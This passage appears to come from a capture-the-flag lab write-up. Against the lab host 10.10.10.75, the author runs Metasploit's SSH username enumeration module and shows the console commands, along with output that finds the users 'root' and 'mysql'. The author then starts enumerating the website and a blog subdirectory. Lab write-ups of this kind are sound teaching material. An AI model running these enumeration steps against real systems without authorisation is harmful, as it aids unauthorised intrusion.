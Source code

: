 This is the only option I find in **msfconsole**:

```
auxiliary/scanner/ssh/ssh_enumusers                                 normal  No     SSH Username Enumeration
```

I configured it against the target to see if it's the same one. Need to set up the option **RHOSTS** of and the **USER_FILE** with a common top user names file and then run the script with the following output: 

```
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_enumusers) >> set RHOSTS 10.10.10.75
RHOSTS => 10.10.10.75
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_enumusers) >> set USER_FILE /home/jasim/SecLists/Usernames/top-usernames-shortlist.txt
USER_FILE => /home/jasim/SecLists/Usernames/top-usernames-shortlist.txt
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_enumusers) >> exploit

[*] 10.10.10.75:22 - SSH - Using malformed packet technique
[*] 10.10.10.75:22 - SSH - Starting scan
[+] 10.10.10.75:22 - SSH - User 'root' found
[+] 10.10.10.75:22 - SSH - User 'mysql' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

The exploit worked well and gave me some information. As we can see there are two names found for ssh:

- root -> require password
- mysql -> require password

It's a good info but I decided to continue with the network enumeration to see If I can gather some more useful information.


## Second network enumeration

Navigating to the adress of the machine we can see a website with just a hello world message but if we inspect the code we can see an interesting comment.

<img src="site.png" />


### Scanning subdirectories

Navigating to the new subdirectory we can see a blog website. So I try to enumerate again this new site.
